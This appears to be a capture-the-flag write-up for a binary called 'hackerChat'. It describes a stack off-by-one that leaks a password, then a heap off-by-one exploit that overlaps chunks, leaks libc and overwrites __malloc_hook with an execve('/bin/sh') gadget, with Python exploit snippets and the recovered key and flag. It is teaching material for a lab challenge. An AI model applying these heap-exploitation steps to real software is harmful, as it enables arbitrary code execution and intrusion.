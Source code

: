 HackerChat Writeup 
===
###### Target:
> 6062bdab4760f2026afb1245d43fea6b  hackerChat
> cbdbf6e2bea8d490dee24fff5140729e  libc.so.6

###### See [exploit.py](https://github.sec.samsung.net/SCTF/challenges/blob/master/Attack/HackersChat/exploit.py)

###### Exploitation:
1. Password leak

Supply 32 bytes into `username` stack variable to cause Off-By-One overflow.
Last termination byte `\0` writes to the first byte of `password_from_file` variable, 
which later will be filled from file `cred_file.psw` thus making string concatenation and leakage. 

```C
__int64 __fastcall auth(int fd) {
    char password[32];              // [rbp-A0h]
    char username_from_file[32];    // [rbp-80h]
    char username[32];              // [rbp-60h]
    char password_from_file[32];    // [rbp-40h]
    unsigned int result;            // [rbp-14h]
    char *s;                        // [rbp-10h]
    int n;                          // [rbp-4h]
    ...
    n = read(fd, username, 32uLL);
    s = strchr(username, '\n');
    if ( s ) *s = 0;
    else username[n] = 0;           // <-- Overflow
    ...
    result = authenticate(username, password, username_from_file, password_from_file);
    if ( !result ) {
        ...
        snprintf(buf, 0x64uLL, "Error Login as: %s\n", username);   // <-- Leakage
        ...
    }
    return result;
}
```

2. Heap Off-By-One Exploitation
    1. Prepare overlapping heap chunks 
    
        ```python
            send_msg('A' * 0xf8)
            send_msg('B' * 0x68)
            send_msg('C' * 0xf8)
            send_msg('D' * 0x10)
        
            delete_msg(0)
            delete_msg(0)
        
            send_msg('E' * 0x68)
            for i in xrange(0x66, 0x5f, -1):
                delete_msg(2)
                send_msg('F' * i + '\x70\x01')
        
            delete_msg(0)
            send_msg('G' * 0xf7)
        ```
        Now chunk _B_ (message index 1) considered as a free.
        
    2. Leak libc address
        
        ```python
            output = read_msg()
            libc_leak = re.split("Message \\d: ", output)[2]

            libc_offset = 0x19eb20 + 88  # = main_arena - libc_base - bin_offset
            libc_leak = unpack(libc_leak + (8-len(libc_leak))*'\x00', 64)
            libc_base = libc_leak - libc_offset
        ```
    3. Find one-shoot gadget in `libc.so.6`
    
        `0x408c2: execve("/bin/sh", rsp + 0x30, environ)`  
        
    4. Write gadget to `__malloc_hook`
    
        ```python
            send_msg('I' * 0x100 + pack(malloc_hook - 0x23, 64))
            
            for i in xrange(0xfe, 0xf7, -1):
                delete_msg(1)
                send_msg('J' * i + '\x70')
            
            send_msg('K' * 0x68)
            send_msg('A' * 0x13 + pack(value, 64) + 'D' * 0x4d)
        ```
        
    5. Trigger gadget execution by invoking `malloc()` and read `k@q.k` file:
    
        `[+] Key: qwd918szq2dwqa9ngref833bfjtjxcve`
        
    6. Decrypt messages
        Run again:
        <pre>
        [+] Key: qwd918szq2dwqa9ngref833bfjtjxcve
        [+] login(admin:superPassword)
        [*] read_msg()
        [+] Flag: <b>flag{Y0u_4r3_h34p_k1ng!!!!!!!}</b></pre>

    4. PROFIT!
